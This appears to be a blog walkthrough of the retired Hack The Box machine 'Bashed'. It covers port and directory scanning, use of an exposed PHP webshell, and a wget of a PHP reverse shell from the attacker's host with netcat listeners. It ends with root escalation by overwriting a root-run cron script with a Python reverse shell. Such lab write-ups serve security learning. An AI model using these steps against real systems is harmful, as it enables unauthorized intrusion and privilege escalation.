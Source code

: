 ```yaml
---
layout: post
title: "HTB-Bashed"
categories: HTB-Walkthrough
---
```


![bashed1](/assets/img/bashed/bashed1.png)


Bashed is another OSCP-like box from the HTB 'retired' archive.

<h3>Nmap</h3>

`nmap -sV -Pn 10.10.10.68 |tee -a bash.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.49 seconds
root@kali:~/HTB/retired/bashed# 

```

Only a webserver seems to be running, [gobuster](https://github.com/OJ/gobuster) can help force-browse its directories. 


`gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .sh,.txt`

```

/uploads (Status: 301)
/images (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)

```

Gobuster finds  a few interesting directories, one of which is /dev.

![dev](/assets/img/bashed/bashed-dev1.png)

/phpbashed.php takes us to a php based bash webshell.

![phpbashed](/assets/img/bashed/bashed-phpbash.png)


<h3>Exploit</h3>

use webshell to navigate to /uploads

then try to upload evil.php (a php-reverse-shell)

`wget http://10.10.14.31/evil.php`

Browse to /uploads/evil.php and catch the shell on a netcat listener

`nc -nlvp  6969`

...we got wwwdata user shell.

<hr width="250" size="6">


<h3>Privilege Escalation</h3>

`sudo -l`

we can execute scriptmanager files via sudo...?

```

cat /home/arrexel/user.txt
2cxxxxxxxxxxxxxxxxxxxxxxxxxxxxc1

```

`sudo -u scriptmanager bash`

...now we are scriptmanager user...


<hr width="250" size="6">


The /scripts folder is owned by scriptmanager
It contains 2 files, test.py (owned by scriptmanager) and test.txt (owned by root)

Even though scriptmanager ownes test.py, it is run every minute by root...updating test.txt
....it can only do this if test.py is run by root....so we can change test.py.


Copy test.py to test1.py ...so that the original isnt lost (if we need to replace it)

Make test.py with reverse python shell to 8888 on kali machine.

Nano and vi are unusable....so we can either copy it accross as a file...
or do...

```

cat>test.py<<_EOF

then copypaste each line of the reverse shell over...
...then 'end of file' by doing 

_EOF

```


This creates test.py, with the pasted contents inside....
Its a handy way to write files when there seems no other way.

Set new listner to 8888 and wait for connection.

```


root@kali:~/HTB/retired/bashed# nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.68] 53652
/bin/sh: 0: can't access tty; job control turned off
 id
uid=0(root) gid=0(root) groups=0(root)
 cat /root/root.txt
ccxxxxxxxxxxxxxxxxxxxxxxxxxxxxe2


```

:)


